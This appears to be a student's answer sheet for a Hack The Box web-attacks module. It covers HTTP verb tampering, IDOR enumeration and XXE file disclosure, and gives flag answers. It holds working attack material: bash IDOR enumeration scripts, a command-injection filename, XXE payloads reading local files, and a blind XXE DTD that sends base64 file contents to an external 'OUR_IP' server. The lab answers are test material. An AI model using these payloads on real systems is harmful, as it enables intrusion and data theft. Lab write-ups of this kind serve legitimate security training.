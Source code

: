 # Bypassing Basic Authentication

1.  Try to use what you learned in this section to access the 'reset.php' page and delete all files. Once all files are deleted, you should get the flag.

Answer: HTB{4lw4y5_c0v3r_4ll_v3rb5}

Explanation: Simple change the HTTP Verb

# Bypassing Security Filters

1. To get the flag, try to bypass the command injection filter through HTTP Verb Tampering, while using the following filename: file; cp /flag.txt ./

Answer: HTB{b3_v3rb_c0n51573n7}

# Mass IDOR Enumeration

1. Repeat what you learned in this section to get a list of documents of the first 20 user uid's in /documents.php, one of which should have a '.txt' file with the flag.

Answer: HTB{4ll_f1l35_4r3_m1n3}

The code: 

#!/bin/bash

url="http://94.237.54.116:59987/"

for i in {1..20}; do
    for link in $(curl -s -X POST -d "uid=$i" "$url/documents.php" | grep -oP "\/documents.*?\\.\\w+"); do
        curl -O $url/$link
    done
done

# Bypassing Encoded References

Answer: HTB{h45h1n6_1d5_w0n7_570p_m3}

#!/bin/bash

url="http://94.237.50.242:47361/download.php?contract="

for i in {1..20}; do
    for encodedid in $(echo -n $i | base64); do
        curl  "$url$encodedid" 
    done
done

# IDOR in Insecure APIs

1. Try to read the details of the user with 'uid=5'. What is their 'uuid' value?

Explanation: Using the Burp proxy, there is a need to change the HTTP verb from POST to GET. And after that change the profile id in the url path to 5.

# Chaining IDOR Vulnerabilities

1. Try to change the admin's email to 'flag@idor.htb', and you should get the flag on the 'edit profile' page.

Answer: HTB{1_4m_4n_1d0r_m4573r}

Explanation: Send the request to Intruder in Burp Suite and then take a profile from 0 to 50, the 10th response in API got the role=staff_admin.
Then, send the request with PUT method with data used from the Intruder Response. See the flag.


IDOR Prevention:
IDOR caused by the improper access control on the back-end servers. 
1. Object-level access control
2. Secure references for the objects. 

# Local File Disclosure
1.  Try to read the content of the 'connection.php' file, and submit the value of the 'api_key' as the answer.

Answer: UTM1NjM0MmRzJ2dmcTIzND0wMXJnZXdmc2RmCg

Explanation: 

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=connection.php">]>
<root>
<name>Dana</name>
<tel>7780052000</tel>
<email>&company;</email>
<message>I feel this</message>
</root>

# Advanced File Disclosure
1. Use either method from this section to read the flag at '/flag.php'. (You may use the CDATA method at '/index.php', or the error-based method at '/error').

Answer: HTB{3rr0r5_c4n_l34k_d474}

Explnation: 

echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
python3 -m http.server 8000

<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///flag.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://IP:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>

<email>&joined;</email>

# Blind Data Exfiltration

1. Using Blind Data Exfiltration on the '/blind' page to read the content of '/327a6c4304ad5938eaf0efb6cc3e53dc.php' and get the flag.

Answer: HTB{1_d0n7_n33d_0u7pu7_70_3xf1l7r473_d474}

Explanation: As this is XXE Blind Vulnerability, now the answer shouold be shown in open server on localhost. 
First, create the xml DTD file:

"""
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=<file>.php">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">
"""

and then, to decode the shown content that will be in the open server output:
 
php file: index.php

<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>

php -S 0.0.0.0:8000

The XXE xml payload:

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>

